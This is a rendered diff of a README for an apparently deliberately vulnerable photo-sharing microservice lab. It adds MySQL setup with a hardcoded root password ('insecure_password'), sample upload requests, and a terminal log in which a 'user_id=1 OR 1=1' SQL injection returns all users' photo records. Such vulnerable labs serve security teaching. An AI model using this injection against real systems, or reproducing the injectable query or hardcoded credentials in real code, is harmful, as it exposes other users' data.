

Before and after one commit to usatpath01/MicroserviceProv, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
updated photo service

````diff
--- a/README.md
+++ b/README.md
@@ -37,6 +37,8 @@ INSERT INTO users (username, password, email) VALUES ('testuser', 'testpassword'
 ```
 
 ```
+docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
+USE photos;
 CREATE TABLE IF NOT EXISTS photos (
     id INT AUTO_INCREMENT PRIMARY KEY,
     filename VARCHAR(255) NOT NULL,
@@ -91,8 +93,67 @@ curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
   "status": "success"
 }
 
-curl -X GET "http://10.5.20.45:8000/api/photos/Docker.png"
+curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
+     -H "Content-Type: multipart/form-data" \
+     -F "file=@test.png" \
+     -F "user_id=3"
+
+curl -X GET "http://10.5.20.45:8000/photos?user_id=1"
 ```
+curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
+     -H "Content-Type: multipart/form-data" \
+     -F "file=@Docker.png" \
+     -F "user_id=3"
+{"filename":"e1d70097-dc14-4ddf-948b-efc113304eac.png","message":"File uploaded successfully","status":"success"}
+
+mysql> select * from photos;
++----+------------------------------------------+---------+---------------------+
+| id | filename                                 | user_id | upload_date         |
++----+------------------------------------------+---------+---------------------+
+|  1 | docker.png                               |       1 | 2001-09-10 00:00:00 |
+|  2 | e1d70097-dc14-4ddf-948b-efc113304eac.png |       2 | 2024-09-20 15:37:39 |
+|  3 | b40051e6-de40-42fb-aee5-82646e39f2a8.png |       3 | 2024-09-20 15:39:00 |
++----+------------------------------------------+---------+---------------------+
+3 rows in set (0.00 sec)
+
+ curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1"
+{
+  "photos": [
+    [
+      1,
+      "docker.png",
+      1,
+      "Mon, 10 Sep 2001 00:00:00 GMT"
+    ]
+  ],
+  "status": "success"
+}
+
+
+utkalika@utkalika:~/Work/vulnerable-photo-app$ curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1%20OR%201%3D1"
+{
+  "photos": [
+    [
+      1,
+      "docker.png",
+      1,
+      "Mon, 10 Sep 2001 00:00:00 GMT"
+    ],
+    [
+      2,
+      "e1d70097-dc14-4ddf-948b-efc113304eac.png",
+      2,
+      "Fri, 20 Sep 2024 15:37:39 GMT"
+    ],
+    [
+      3,
+      "b40051e6-de40-42fb-aee5-82646e39f2a8.png",
+      3,
+      "Fri, 20 Sep 2024 15:39:00 GMT"
+    ]
+  ],
+  "status": "success"
+}
 
 ```
 docker tag usatpath01/vulnerable-photo-app-analytics-service:v1 usatpath01/vulnerable-photo-app-analytics-service:v1
````
Also changed, not shown: test.jpg (added), 5 other files.
